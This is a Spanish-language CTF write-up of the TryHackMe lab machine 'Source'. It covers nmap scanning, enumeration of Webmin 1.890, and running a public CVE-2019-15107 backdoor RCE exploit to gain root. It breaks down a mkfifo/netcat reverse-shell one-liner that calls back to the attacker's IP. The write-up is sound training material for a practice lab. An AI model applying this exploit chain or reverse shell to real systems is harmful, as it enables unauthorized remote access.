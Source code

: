 ```yaml
---
title: 'Source - TryHackMe'
description: "En esta ocasión, abordaremos la máquina Source de la plataforma TryHackMe. Nos encontraremos con el servicio Webmin 1.890 y haremos uso de un Backdoor RCE exploit CVE-2019-15107 para acceder al servicio con privilegios elevados."
pubDate: 'Oct 15 2024'
categories: ['WriteUp', 'TryHackMe', 'CTF']
--- 
```


## Introducción

**[TryHackMe](https://tryhackme.com/p/Yw4rf)** es una plataforma diseñada para la práctica de hacking ético. En esta ocasión, abordaremos la máquina Source. Nos encontraremos con el servicio Webmin 1.890 y haremos uso de un Backdoor RCE exploit CVE-2019-15107 para acceder al servicio con privilegios elevados.

![Source yw4rf](../../../assets/TryHackMe/source/source-tryhackme.png)

```
Platform: TryHackMe
OS: Linux
Level: Easy
```

## Scanning (Escaneo)

```
Target: 10.10.146.135
```

Inicialmente, usamos el comando **Ping**. Este utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Específicamente, **Ping** envía un mensaje de “echo request” a una **dirección IP** y espera recibir un mensaje de “echo response” en respuesta. Este proceso nos permite verificar si una máquina en la red es accesible y medir el tiempo que tarda en recibir una respuesta (conocido como latencia). Ademas, podemos inferir que es una máquina **Linux** debido al **Time To Leave** (**ttl**) que en este caso es **63**, si fuese en su lugar **128** o un número cercano a este, sería una máquina **Windows**.

![Source yw4rf](../../../assets/TryHackMe/source/source-1.png)

Como vemos, el paquete fue recibido por la máquina victima. Una vez verificada la conexión, empezamos a realizar un escaneo de multiples etapas con la herramienta **Nmap**. Primero, hacemos un escaneo de puertos abiertos.

![Source yw4rf](../../../assets/TryHackMe/source/source-2.png)

- `sudo`: Ejecuta el comando con privilegios de superusuario.
- `nmap`: Herramienta de escaneo de redes.
- `-sS`: Escaneo TCP SYN, conocido como escaneo “sigiloso” porque no completa el handshake.
- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `--open`: Muestra solo los puertos que están abiertos.
- `-Pn`: Omite la detección de host (asume que el host está activo).
- `-n`: No resuelve nombres de host (no intenta convertir IP a nombres).
- `--min-rate 5000`: Establece una tasa mínima de paquetes por segundo (aumenta la velocidad del escaneo).
- `-vvv`: Modo muy detallado (muestra más información durante el escaneo).
- `10.10.146.135`: Dirección IP del objetivo.
- `-oG PortScan`: Guarda los resultados en formato “grepable”.

Vemos que tenemos los puertos **22/tcp** y **1000/tcp**, procedemos a hacer un escaneo más detallado de los mismos con el fin de obtener más información. Esto lo haremos con la flag `-sCV`

![Source yw4rf](../../../assets/TryHackMe/source/source-3.png)

## Enumeration (Enumeración)

##### 22/SSH 

La versión de **OpenSSH es 7.6p1**, y se está utilizando el protocolo 2.0. También se muestran las claves públicas **RSA**, **ECDSA** y **ED25519** utilizadas por el servidor SSH. Se podría utilizar la vulnerabilidad **CVE-2018-15473**, que permite a un atacante obtener información sobre los nombres de usuario válidos en el sistema. Lo que puede facilitar a ataques de fuerza bruta.

##### 10000/Webmin 

El servicio **Webmin** presenta la versión **MiniServ es 1.890**, nos indica que hay una página **http** la cual es accesible.

![Source yw4rf](../../../assets/TryHackMe/source/source-4.png)

Al acceder a ella mediante la URL: `http://10.10.146.135:10000` nos redirige a está página que nos indica **"This web server is running in SSL mode. Try the URL `https://ip-10-10-146-135.eu-west-1.compute.internal:10000/` instead"** 

![Source yw4rf](../../../assets/TryHackMe/source/source-5.png)

Al ingresar a la URL correspondiente nos salta **"This site can´t be reached"** esto se debe a que no tenemos el sitio en nuestro **/etc/hosts** por lo tanto debemos agregarlo

![Source yw4rf](../../../assets/TryHackMe/source/source-6.png)

Esto lo haremos mediante `sudo nano /etc/hosts` se requieren permisos de super usuario para la escritura.

![Source yw4rf](../../../assets/TryHackMe/source/source-7.png)

Agregamos la linea `10.10.146.145  ip-10-10-146-135.eu-west-1.compute.internal` y ahora deberiamos poder acceder

![Source yw4rf](../../../assets/TryHackMe/source/source-8.png)

Nos encontramos con un **panel de autenticación Webmin** y como no tenemos usuario ni contraseña, buscaremos más información sobre la version 1.890 de **Webmin**

![Source yw4rf](../../../assets/TryHackMe/source/source-9.png)

Al buscar en Google "**webmin 1.890 github**" nos salen varios exploits. En mi caso, el que más me intereso fue el de **[MiurlandOracle/CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107)** 

![Source yw4rf](../../../assets/TryHackMe/source/source-10.png)

## Vulnerability (Vulnerabilidad)

**[CVE-2019-15107](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15107)**: El atacante puede enviar una solicitud http maliciosa a la página del formulario de solicitud de restablecimiento de contraseña y ejecutar comandos arbitrarios en el sistema operativo subyacente sin necesidad de autenticación. La vulnerabilidad está presente en las versiones 1.882 <<< 1.921

![Source yw4rf](../../../assets/TryHackMe/source/source-11.png)

Usaremos el exploit de **[MiurlandOracle](https://github.com/MuirlandOracle/CVE-2019-15107)**. Convierto la URL del exploit a **Raw**

![Source yw4rf](../../../assets/TryHackMe/source/source-12.png)

Luego de convertir la URL, lo descargo con `wget` 

![Source yw4rf](../../../assets/TryHackMe/source/source-13.png)

Una vez instalado el exploit, ejecuto el parametro `-h` para ver los posibles comandos

![Source yw4rf](../../../assets/TryHackMe/source/source-14.png)

Una vez entendido como funciona el exploit, lo ejecutamos. En este caso se ejecuta `python3 CVE-2019-15107.py 10.10.146.135 -p 10000` lo cual nos da control total a la máquina

![Source yw4rf](../../../assets/TryHackMe/source/source-15.png)

Es posible escribir `shell` para obtener una **Reverse Shell**. En mi caso, utilizare está:

![Source yw4rf](../../../assets/TryHackMe/source/source-16.png)

- `rm /tmp/f;`: Elimina cualquier archivo existente en `/tmp/f`. Esto se hace para asegurarse de que no haya un archivo con el mismo nombre que pueda interferir con la creación de la fifo (ver a continuación).
- `mkfifo /tmp/f;`: Crea una fifo (First-In-First-Out) en `/tmp/f`. Una fifo es un tipo de archivo especial que permite la comunicación entre procesos. En este caso, se utiliza para redirigir la entrada y salida estándar.
- `cat /tmp/f`: Lee el contenido de la fifo `/tmp/f` y lo envía a la salida estándar.
- `sh -i`: Ejecuta una shell interactiva (`sh`) con la entrada estándar (`-i`) conectada a la salida estándar de `cat`.
- `2>&1`: Redirige la salida de error (`2`) a la salida estándar (`1`). Esto permite que los errores se muestren en la salida estándar.
- `nc 10.21.66.133 1777`: Conecta a un servidor netcat (`nc`) en la dirección IP `10.21.66.133` y el puerto `1777`. El servidor netcat escucha la conexión y envía la salida estándar a la fifo `/tmp/f`.
- `>/tmp/f`: Redirige la salida estándar de la shell interactiva a la fifo `/tmp/f`.

Al estar en escucha con **NetCat** por el **puerto 1777** nos dará acceso la **Reverse Shell**
 
![Source yw4rf](../../../assets/TryHackMe/source/source-17.png)

Una vez tenemos acceso verificamos que somos **root** por lo tanto no es necesario escalar privilegios. Hare **tty treatment** para no tener problemas inncesarios y que la shell sea mas comoda a la hora de utilizarla luego de la **reverse shell**.

![Source yw4rf](../../../assets/TryHackMe/source/source-18.png)

![Source yw4rf](../../../assets/TryHackMe/source/source-19.png)

Una vez tratada la tty verificamos si somos **root**
 
![Source yw4rf](../../../assets/TryHackMe/source/source-20.png)

Somos **root** y tenemos control total de la máquina, por lo tanto la hemos finalizado. Restaria encontrar las **flags**.


<br>